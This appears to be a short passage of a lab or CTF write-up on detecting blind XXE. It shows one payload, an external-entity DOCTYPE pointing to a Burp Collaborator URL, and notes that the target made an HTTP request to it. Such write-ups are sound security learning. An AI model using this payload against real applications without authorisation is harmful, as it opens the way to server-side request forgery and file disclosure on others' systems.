



The application has an XML input:

But the response is not shown, so we can't see the information. We can add our Burp Collaborator URL to verify if there is an XXE:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://dp642hkvw5hdwfpnasicsyf9n0trhi57.oastify.com"> ]>`

If we check our Burp Collaborator, an HTTP request has been performed: 
